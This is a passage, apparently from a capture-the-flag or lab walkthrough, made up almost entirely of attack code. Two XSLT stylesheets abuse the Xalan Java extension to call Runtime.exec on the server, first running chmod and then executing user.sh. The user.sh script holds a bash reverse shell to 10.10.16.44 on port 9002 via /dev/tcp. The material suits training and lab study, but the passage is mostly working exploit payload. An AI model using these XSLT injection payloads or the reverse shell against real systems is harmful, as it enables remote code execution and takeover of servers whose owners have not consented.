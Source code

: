 ### []()chmod.xsl

```ruby

<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod +x ./user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```
### []()execute.xsl

```ruby

<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```
* and here is the **user.sh**

```ruby

#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.16.44/9002 0>&1"

```

* let's start
